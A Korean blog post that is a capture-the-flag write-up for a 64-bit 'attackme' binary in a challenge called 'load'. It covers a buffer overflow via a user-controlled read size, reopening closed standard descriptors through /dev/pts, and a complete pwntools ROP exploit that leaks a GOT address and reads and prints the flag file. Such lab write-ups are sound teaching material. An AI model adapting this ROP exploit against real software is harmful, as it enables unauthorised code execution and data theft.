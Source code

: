 ```yaml
---
layout: post
title: "load"
comments : true
category : War Game
---
```


# 문제
***

attackme 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
FORTIFY:  Enabled
```

file 명령어의 결과는 다음과 같다.
```
attackme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0620e5b122fd043e5a40e181f3f3adf29e6f4c1, stripped
```

바이너리 코드

__main()__ 
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
    char v4; // [rbp-30h]
    ...
    sub_400986(byte_601040,0x80);   // fgets(byte_601040,0x80,stdin); "\x0a" NULL로 replace
    ...
    _printf_chk(1,"Input offset: ");
    v6 = sub_4009DB();  // fgets(&nptr,0x20,stdin); return atoi(&nptr);
    _printf_chk(1,"Input size: ");
    v5 = sub_4009DB();
    sub_4008FD(&v4,byte_601040,v6,v5);
    sub_4008D8();   // close(0); close(1); close(2)
}
```

__sub_4008FD()__
```
int __fastcall sub_4008FD(void *a1, const char *a2, __off_t a3, __int64 a4)
{
    offset = a3;
    nbytes = a4;
    fd = open(a1,0);
    if (fd == -1)
        return;
    lseek(fd,offset,0);
    if(read(fd,a1,nbytes) > 0 )
        puts("Load file complete!");
    return close(fd);
}
```

__sub_4008FD()__ 함수에서 nbytes 값을 내 마음대로 설정할 수 있기 때문에 bof를 통해서 main 함수의 ret를 overwrite할 수 있다.
하지만 __sub_4008D8()__ 함수에서 stdin, stdout, stderr 를 모두 close() 하기 때문에 입출력 파일을 다시 open 해줘야 한다. <br/><br/>

심볼릭 링크 관계 : /dev/stdin -> /proc/self/fd/0 -> /dev/pts/숫자 <br/><br/>

즉, 프로세스의 입력은 /dev/pts/숫자 파일을 통해서 처리된다. 따라서 /dev/stdin, /proc/self/fd/0, /dev/pts/숫자 중 하나의 파일을 open 하고 해당 파일 디스크립터를 read 함수의 인자로 넣어주면 ```read(0,buf,size)``` 와 동일한 동작을 수행한다.  <br/><br/>

/proc/self/fd/1 과 /proc/self/fd/2도 /proc/self/fd/0과 동일한 /dev/pts/숫자 파일에 심볼릭 링크되어 있다.  <br/><br/>
그런데 pwntools의 process를 이용하면 /proc/self/fd/0 가 pipe에 심볼릭 링크되어 있다. (/proc/self/fd/1, /proc/self/fd/2는 /dev/pts/숫자 파일에 심볼릭 링크 걸려있음)  <br/><br/>즉, process 함수로 생성된 객체는 프로세스와 pipe를 통해서 입력을 준다.  <br/><br/>이는 process의 stdin default 옵션이 pipe여서 그렇다. (stdin 옵션을 PTY로 바꾸면 /dev/pts 를 통해서 입력을 준다.)   <br/><br/> 그리고 daemon으로 돌고 있는 경우 /proc/self/fd/0 ~ 2 은 socket에 링크되어 있다.   <br/><br/>


나는 그냥 flag만 읽는 것으로 payload를 구성했다. (사실 뭔가 원래 문제에서는 /proc/self/fd/0 ~1의 심볼릭 링크에 대해서 따로 처리를 해준 것 같다. 그게 아니면 /dev/pts/숫자를 open 한다고 해서 출력 결과가 나한테 올 것 같지가 않다. remote 환경에서는 1번이 socket에 링크되어 있으므로... => 아마도 socket이 /dev/pts/숫자에 링크되어 있는듯...)

## exploit 방법
1. /dev/stdin 파일을 open하고 read 함으로써 bof를 발생시킨다. 
2. ROPgadget을 구성 
   - /dev/pts/숫자 파일을 두 번 open한다.
   - 프로세스에 해당하는 /dev/pts/숫자를 open했으면 문자열 출력하도록 한다. (잘못된 파일을 open하면 출력되지 않고, 이 경우에는 process를 close 한다.)
   - flag 파일을 open하고 bss_section에 flag 파일을 read한다. 마지막으로 flag 내용이 쓰여진 bss_section을 출력한다.
3. 프로세스에 해당하는 /dev/pts/숫자를 찾을 때까지 1 -2를 반복한다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path = "/home/sungyun/round3/load/attackme"

puts_plt=0x4006c0
puts_got=0x600fa0
prdi=0x0000000000400a73
prsip=0x0000000000400a71
open_plt=0x0000000000400710
bss_sec=0x6011b0
pts_path=0x601040+0x10
read_plt=0x4006e8

num=0

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

while(1):

	p=process(file_path)
	#num=raw_input()
	#num=num[:-1]
	p.recvuntil("name: ")
	file_name = "/dev/pts/"+str(num)
	#file_name="/dev/pts/"+num
	p.sendline("/dev/stdin"+"\x00"+"AAAAA"+file_name+"\x00"+"flag"+"\x00")
	p.recvuntil("offset: ")
	p.sendline("0")
	p.recvuntil("size: ")

	pay="A"*0x30
	pay+=p64(pts_path+0x30+8)
	pay+=p64(prdi)
	pay+=p64(pts_path)
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open fd 0
	pay+=p64(prdi)
	pay+=p64(pts_path)
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open fd 1

	pay+=p64(prdi)		#puts_got leak
	pay+=p64(puts_got)
	pay+=p64(puts_plt)

	pay+=p64(prdi)
	pay+=p64(pts_path+10+len(str(num)))
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open flag

	pay+=p64(prdi)
	pay+=p64(2)
	pay+=p64(prsip)
	pay+=p64(bss_sec)
	pay+="A"*8
	pay+=p64(read_plt)	# read flag

	pay+=p64(prdi)
	pay+=p64(bss_sec)
	pay+=p64(puts_plt)	# puts flag

        p.sendline(str(len(pay)))
        time.sleep(0.1)

	p.send(pay)
	#p.recvuntil("complete!\n",timeout=0.5)		# 처음에 open하는 파일을 /dev/pts/숫자로 한 경우 잘못된 숫자를 넣으면 attackme 프로세스가 read에서 계속 머물러 있기 때문에 timeout을 해줘야한다.
	p.recvuntil("complete!\n")  # /dev/stdin을 open한 경우
	try:
		puts=p.recvline()
		puts=puts[::-1]
		puts=puts[1:]
		puts=int(puts.encode('hex'),16)
		break
	except:
		p.close()
	num = num + 1

print p.recvline()
```

# 알게 된 것
***
- /dev/tty : 현재 콘솔 장치, 현재 콘솔 세션을 의미 (사용자의 터미널을 의미)
- /dev/pts : SSH 접속 콘솔 장치 (원격 터미널 환경)
- /usr/bin/tty : 터미널 확인 리눅스 명령어 (표준 입력에 접속된 터미널 장치 파일명 출력)
